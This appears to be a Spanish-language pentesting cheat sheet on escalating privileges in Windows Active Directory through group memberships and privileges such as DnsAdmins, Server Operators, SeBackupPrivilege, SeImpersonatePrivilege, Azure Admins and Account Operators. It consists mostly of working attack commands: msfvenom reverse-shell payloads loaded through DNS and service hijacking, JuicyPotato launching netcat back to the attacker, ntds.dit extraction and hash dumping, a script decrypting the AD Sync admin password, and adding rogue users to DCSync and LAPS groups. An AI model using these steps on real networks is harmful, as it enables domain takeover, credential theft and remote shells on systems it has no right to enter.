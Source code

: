 ## DnsAdmins

Gracias a pertenecer a este grupo podemos escalar privilegios de la siguiente forma:
- Creamos un archivo `dll` malicioso:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<PORT> -f dll -o <FILENAME>.dll
```

- Creamos un servidor `SMB` para compartirlo a nivel de red:

```shell
impacket-smbserver smbFolder $(pwd) -smb2support 
```

- Con `dnscmd` ejecutamos este comando:

```powershell
dnscmd <HOSTNAME> /config /serverlevelplugindll \\<LOCAL_IP>\smbFolder\<FILENAME>.dll
```

- Apagar el servicio **DNS**:

```shell
sc.exe stop dns
```

- Y lo volvemos a encender:

```shell
sc.exe start dns
```

Ahora gracias a esto en tu `netcat` deberías haber obtenido una shell.

## Server Operators

Esta escalada de privilegios es bastante parecida a la anterior:

- Generamos un `exe` malicioso:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<PORT> -f exe -o <FILENAME>.exe
```

- Lo compartimos de alguna manera, ya sea con un servidor de `SMB`. 
- Ahora con `sc` asignamos nuestro `exe` al binpath del servicio a reiniciar:

```shell
sc.exe config VSS binpath="path\to\malicious\file.exe"
```

- Ahora, como antes, apagamos el servicio **VSS** y lo volvemos a encender:

```shell
sc.exe stop VSS
```

```shell
sc.exe start VSS
```

Esto otorgará una shell.

## SeBackupPrivilege

Este grupo nos otorgará el privilegio `SeBackupPrivilege`. Para escalar privilegios desde aquí es muy fácil:

- Creamos un archivo `dsh`:

```d
set context persistent nowriters
add volume c: alias ruy
create
expose %ruy% z:
```

- Lo convertimos con `unix2dos`:

```shell
unix2dos ruy.dsh
```

- Ahora lo subimos a la máquina víctima y se lo pasamos a `diskshadow` como comandos:

```shell
diskshadow /s ruy.dsh
```

- Después nos copiamos el `ntds.dit`:

```shell
robocopy /b f:\windows\ntds . ntds.dit
```

- Ahora nos copiamos el `system`:

```shell
reg save hklm\system c:\Temp\system
```

- Nos transferimos estos archivos a nuestra máquina y los dumpeamos con `secretsdump`:

```shell
impacket-secretsdump -ntds ntds.dit -system system local
```

Esto nos reportará todos los hashes del dominio.

## SeImpersonatePrivilege

Este privilegio es bastante interesante ya que nos permite actuar como otro usuario. Explotarlo es fácil, solo sigue estos pasos:

- Transfiere [JuicyPotato](https://github.com/ohpe/juicy-potato) a la máquina víctima
- Transfiere netcat a la máquina víctima
- Ejecuta el siguiente comando:

```shell
.\JuicyPotatoNG.exe -t * -p "path\to\nc.exe" -a "<LOCAL_IP> <PORT> -e cmd"
```

Para entender como funciona está en mi web explicado medianamente bien.

## AD Recycle Bin

Si pertenecemos a este grupo podemos ver los objetos borrados en la papelera de reciclaje:

```powershell
Get-ADObject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

## Azure Admins

Si vemos el directorio `C:\Program Files\Microsoft Azure AD Sync` podemos escalar privilegios gracias a este [exploit](https://github.com/VbScrub/AdSyncDecrypt/releases) de [VbScrub](https://github.com/VbScrub)

```powershell
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
C:\ProgramData\AdDecrypt.exe -FullSQL
```

Y así se nos listaran las credenciales del admin del dominio:

![[Pasted image 20230718163621.png]]

El exploit está estructurado en tres pasos:

- Consigue info de la DB y obtiene las claves de encriptación del KeyManager.
- Consigue la configuración y la contraseña encriptada de la DC.
- Busca las claves y decodea la contraseña.

### Buscando la Key Information

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True" $client.Open() $cmd = $client.CreateCommand() $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" $reader = $cmd.ExecuteReader() $reader.Read() | Out-Null $key_id = $reader.GetInt32(0) $instance_id = $reader.GetGuid(1) $entropy = $reader.GetGuid(2) $reader.Close()
```
### Busca la configuración

```powershell
$cmd = $client.CreateCommand() $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'" $reader = $cmd.ExecuteReader() $reader.Read() | Out-Null $config = $reader.GetString(0) $crypted = $reader.GetString(1) $reader.Close()
```

### Decodear la contraseña

```powershell
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll' $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager $km.LoadKeySet($entropy, $instance_id, $key_id) $key = $null $km.GetActiveCredentialKey([ref]$key) $key2 = $null $km.GetKey(1, [ref]$key2)
$decrypted = $null $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}} $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}} $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}} Write-Host ("Domain: " + $domain.Domain) Write-Host ("Username: " + $username.Username) Write-Host ("Password: " + $password.Password)
```

## Account Operators

Empezaremos creando un nuevo usuario:

```c
net user <USUARIO> <CONTRASEÑA> /add /domain
```

Ahora necesitaríamos añadir al usuario creado al grupo que tenga `DCSync` con el DC o a un grupo que tenga `WriteDacl` sobre el DC, para así poder efectuar un `DCSync` y ver todos los hashes:

```c
net group "<GRUPO>" <USUARIO> /add
```

En caso de que el usuario que pertenezca a Account Operators no pertenezca a Remote Management Users:

```powershell
Import-Module .\PowerView.ps1
$pass = ConvertTo-SecureString '<CONTRASEÑA>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<USUARIO>', $pass)
New-AdUser ruy -credential $cred -enabled $true -accountpassword $pass
Add-DomainGroupMember -Identity <GRUPO> -Credential $cred -Members 'ruy'
```

Ahora también nos podemos añadir (ruycr4ft) al grupo LAPS Reader, así podemos leer las contraseñas de los administradores del dominio:

```powershell
Add-DomainGroupMember -Identity '<GRUPO_LAPS>' -Credential $cred -Members 'ruycr4ft'
```